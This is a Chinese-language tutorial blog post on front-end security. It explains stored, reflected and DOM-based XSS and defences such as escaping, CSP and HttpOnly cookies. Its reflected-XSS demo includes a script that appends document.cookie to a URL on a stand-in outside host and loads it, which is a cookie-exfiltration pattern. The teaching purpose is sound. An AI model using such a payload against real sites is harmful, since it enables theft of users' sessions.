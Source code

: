 ```yaml
---
layout: post
title: "前端安全"
subtitle: '前端安全简述'
author: "Dongrh"
header-img: "img/banner/6.jpg"
catalog: true
tags:
  - 安全
  - 浏览器工作原理
---
```


### 跨站脚本攻击

同源策略可以隔离各个站点之间的DOM交互、页面数据和网络通信，虽然严格的同源策略会带来更多的安全，但是也束缚了 Web。这就需要在安全和自由之间找到一个平衡点，所以我们默认页面中可以引用任意第三方资源，然后又引入CSP策略来加以限制；默认XMLHttpRequest和Fetch不能跨站请求资源，然后又通过CORS策略来支持其跨域。页面中的第三方资源引用和CORS也带来了很多安全问题，其中最典型的就是XSS攻击。

XSS全称是Cross Site Scripting，为了与“CSS”区分开来，故简称XSS，翻译过来就是“跨站脚本”。
XSS攻击是指黑客往HTML、DOM、JS等文件中注入恶意脚本，从而在用户浏览页面时利用注入的恶意脚本对用户实施攻击的一种手段。比如：可以窃取Cookie等信息，然后通过XMLHttpRequest或者Fetch加上CORS功能将数据发送给恶意服务器，造成安全隐患。


#### XSS方式
##### 1、存储型XSS攻击
存储型XSS攻击流程
- 黑客利用站点漏洞将一段恶意JavaScript代码提交到网站的数据库中
- 然后用户向网站请求包含了恶意JavaScript脚本的页面
- 当用户浏览该页面的时候，恶意脚本就会将用户的Cookie信息等数据上传到服务器
- 黑客拿到了用户 Cookie 信息之后，就可以利用 Cookie 信息在其他机器上登录该用户的账号

##### 2、反射型XSS攻击
反射型XSS攻击流程
- 恶意JavaScript脚本属于用户发送给网站请求中的一部分
- 随后网站又把恶意JavaScript脚本返回给用户
- 当恶意JavaScript脚本在用户页面中被执行时，黑客就可以利用该脚本做一些恶意操作

代码演示
```
// 服务端
var express = require("express");
var router = express.Router();
router.get("xxx/xxx", function(req, res, next){
  res.render("xxxpage", {
      content: req.query.xss_content,
  })
})
module.exports = router;
```
```
// 客户端，仅仅举例说明，实际场景较多出现在渲染时使用html模式渲染
<!DOCTYPE html>
<html>
<head>
  <title>test xss</title>
</head>
<body>
  <p>Welcome to XSS Test</p>
  <script type="text/javascript">
    var xss_content =  encodeURIComponent('https://www.othernet.com/path?query='+document.cookie);
    fetch('/xxx/xxx?xss_content='+xss_content)
      .then(function(response) {
        return response.json();
      })
      .then(function(json) {
        var img = new Image();
        img.src = decodeURIComponent(json.content);
        document.body.append(img);
      });
  </script>
</body>
</html>
```
这种攻击较多出现在富文本、聊天场景等。

- 基于DOM的XSS攻击
基于DOM的XSS攻击流程
- 黑客通过各种手段将恶意脚本注入用户的页面中，比如通过网络劫持在页面传输过程中修改 HTML 页面的内容，这种劫持类型很多，有通过 WiFi 路由器劫持的，有通过本地恶意软件来劫持的，它们的共同点是在 Web 资源传输过程或者在用户使用页面的过程中修改 Web 页面的数据


### 防范XSS攻击措施
存储型XSS 攻击和反射型XSS攻击都是需要经过服务器来处理的，这两种类型的漏洞是服务端的安全漏洞。基于DOM的XSS攻击全部都是在浏览器端完成的，因此基于DOM的XSS攻击是属于前端的安全漏洞。
无论是何种类型的XSS攻击，它们都有一个共同点，那就是首先往浏览器中注入恶意脚本，然后再通过恶意脚本将用户信息发送至黑客部署的恶意服务器上。所以要阻止XSS攻击，我们可以通过阻止恶意 JavaScript脚本的注入和恶意消息的发送来实现

1. 服务器对输入脚本进行过滤或转码不管是反射型还是存储型XSS攻击，我们都可以在服务器端将一些关键的字符进行转码，比如最典型的：
```
<script>alert('你被xss攻击了')</script>
```
如果上述代码通过script过滤，则代码变成了 "", 当用户再次请求该页面时，由于script标签的内容都被过滤了，所以这段脚本在客户端是不可能被执行的。

除了过滤之外，服务器还可以对这些内容进行转码，还是上面那段代码，经过转码之后，效果如下所示：
```
&lt;script&gt;alert(&#39;你被xss攻击了&#39;)&lt;/script&gt;
```
经过转码之后的内容，如script标签被转换为&lt;script&gt;，因此即使这段脚本返回给页面，页面也不会执行这段脚本。

2. 充分利用CSP虽然在服务器端执行过滤或者转码可以阻止XSS攻击的发生，但完全依靠服务器端依然是不够的，我们还需要把CSP等策略充分地利用起来，以降低XSS攻击带来的风险和后果。实施严格的CSP可以有效地防范XSS攻击，具体来讲CSP有如下几个功能：
- 限制加载其他域下的资源文件，这样即使黑客插入了一个JavaScript文件，这个JavaScript文件也是无法被加载的；
- 禁止向第三方域提交数据，这样用户数据也不会外泄；禁止执行内联脚本和未授权的脚本；
- 还提供了上报机制，这样可以帮助我们尽快发现有哪些XSS攻击，以便尽快修复问题。

3. 使用HttpOnly属性由于很多XSS攻击都是来盗用Cookie的，因此还可以通过使用HttpOnly属性来保护我们 Cookie 的安全。通常服务器可以将某些 Cookie 设置为HttpOnly标志，HttpOnly是服务器通过HTTP响应头来设置的，下面是打开GitHub时，HTTP 响应头中的一段：
```
Set-Cookie: has_recent_activity=1; path=/; expires=Tue, 10 May 2019 07:46:50 GMT; secure; HttpOnly; SameSite=Lax
```
我们可以看到，set-cookie 属性值最后使用了 HttpOnly 来标记该 Cookie。顾名思义，使用 HttpOnly 标记的Cookie只能使用在HTTP请求过程中，所以无法通过JavaScript来读取这段 Cookie。我们还可以通过 Chrome 开发者工具来查看哪些 Cookie 被标记了 HttpOnly，如下图
![PNG](/img/safe/1.pic_hd.jpg)
从图中可以看出，logged_in等的Cookie的HttpOlny属性是被勾选上的，所以logged_in的内容是无法通过document.cookie是来读取的。由于无法读取设置了HttpOnly的Cookie数据，所以即使页面被注入了恶意JavaScript脚本，也是无法获取到设置了HttpOnly的数据。因此一些比较重要的数据我们建议设置HttpOnly标志。
